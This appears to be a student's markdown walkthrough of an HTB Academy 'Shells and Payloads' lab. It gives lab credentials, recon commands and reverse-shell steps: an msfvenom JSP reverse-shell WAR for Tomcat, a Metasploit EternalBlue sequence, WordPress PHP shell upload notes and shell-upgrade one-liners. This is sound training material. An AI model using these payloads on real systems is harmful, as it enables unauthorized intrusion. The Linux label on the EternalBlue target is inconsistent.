


# Skills Assessment — Shells and Payloads

## Target Environment

**Foothold Access:**
- **Method:** RDP via `xfreerdp`
- **IP:** `10.129.202.134`
- **Credentials:** `htb-student` / `HTB_@cademy_stdnt!`

**Network:** Internal inlanefreight network `172.16.0.0/23`


### Target Hosts

| Host | OS/Type | Address | Exploit Vector | Creds/Notes |
|------|---------|---------|----------------|-------------|
| **Host-01** | Windows | 172.16.1.11:8080 | Apache Tomcat Manager WAR upload | `tomcat:Tomcatadm` |
| **Host-02** | Web App | blog.inlanefreight.local | WordPress/blog exploitation | `admin:admin123!@#` |
| **Host-03** | Linux | 172.16.1.13 | **EternalBlue (MS17-010)** | SMB vulnerability |

### Objectives
- [ ] Interactive shell from Windows host (Host-01)
- [ ] Interactive shell from Linux host (Host-03)
- [ ] Interactive shell from Web application (Host-02)
- [ ] Identify shell environment on each victim

---

### Foothold IP (Spawned)


### Network Topology


## Connection

```bash
# From Pwnbox or your VM with HTB VPN
xfreerdp 10.129.202.134 /u:htb-student /p:HTB_@cademy_stdnt!
# Then re-enter creds in GUI prompt
```


> ⚠️ **Important:** Start listeners on the **foothold's internal IP** (172.16.x.x), not 0.0.0.0 — the foothold is your pivot point.

---

## Reconnaissance (From Foothold)

```bash
# Verify connectivity
ping 172.16.1.11
ping 172.16.1.13
ping blog.inlanefreight.local

# Port scan
nmap -sT -p- 172.16.1.11,172.16.1.13
nmap -sT -p 80,8080,443,445 blog.inlanefreight.local

# Browse to Tomcat Manager
firefox http://172.16.1.11:8080/manager/html

# Check blog
firefox http://blog.inlanefreight.local
```

---

## Exploitation

### Host-01: Windows Tomcat (172.16.1.11:8080)
**Vector:** Tomcat Manager WAR upload  
**Credentials:** `tomcat:Tomcatadm`

```bash
# Generate WAR payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<FOOTHOLD_IP> LPORT=4444 -f war -o shell.war

# Or cmd.jsp for basic command exec
```

Steps: Access Tomcat Manager → Deploy WAR → Catch shell

---

### Host-02: WordPress Blog (blog.inlanefreight.local)
**Vector:** Admin panel → Theme/Plugin upload  
**Credentials:** `admin:admin123!@#`

```bash
# Login to wp-admin, upload PHP reverse shell
# Or use meterpreter WordPress exploit
# Or edit theme 404.php to include shell
```

---

### Host-03: Linux SMB (172.16.1.13)
**Vector:** MS17-010 EternalBlue

```bash
# Metasploit approach
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 172.16.1.13
set LHOST <FOOTHOLD_IP>
run

# Python exploit alternative if MSF unavailable
```

---

## Shell Identification

Once on each host, identify the shell environment:

```bash
# Windows
echo %COMSPEC%
whoami /all
ver

# Linux
echo $SHELL
id
which python python3
ps aux | grep $$

# Upgrade shells
python -c 'import pty; pty.spawn("/bin/bash")'
# or: script -qc /bin/bash /dev/null
# Then: Ctrl+Z, stty raw -echo; fg, export TERM=xterm
```

---

## Flags / Answers

### Question 1
What is the hostname of Host-1? (Format: all lower case)

```
└──╼ $ifconfig
docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:20:c6:5d:e8  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.66.212  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:fe8a:2f5b  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:fe8a:2f5b  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:8a:2f:5b  txqueuelen 1000  (Ethernet)
        RX packets 3135  bytes 223746 (218.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 563  bytes 333751 (325.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.1.5  netmask 255.255.254.0  broadcast 172.16.1.255
        inet6 fe80::250:56ff:fe8a:2683  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:8a:26:83  txqueuelen 1000  (Ethernet)
        RX packets 181  bytes 17807 (17.3 KiB)
        RX errors 0  dropped 5  overruns 0  frame 0
        TX packets 22  bytes 1836 (1.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 31  bytes 2172 (2.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
```

Answer: SHELLS-WINSVR 
Answer gotten from [nmap enumeration](raw_data/nmap.initial).

---

## Lessons Learned
